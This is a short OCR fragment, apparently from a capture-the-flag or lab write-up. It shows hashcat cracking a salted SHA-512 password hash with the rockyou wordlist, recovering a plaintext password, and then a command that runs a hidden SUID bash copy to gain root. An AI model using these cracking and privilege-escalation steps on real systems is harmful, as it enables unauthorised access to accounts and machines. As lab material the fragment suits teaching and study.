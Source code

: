 Host memory required for this attack: 65 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Wed May 26 00:52:57 2021 (0 secs)
Time.Estimated...: Wed May 26 00:52:57 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   135.1 kH/s (0.75ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 20480/14344385 (0.14%)
Rejected.........: 0/20480 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> michelle4

Started: Wed May 26 00:52:15 2021
Stopped: Wed May 26 00:52:58 2021


./.suid_bash -p

 to run as root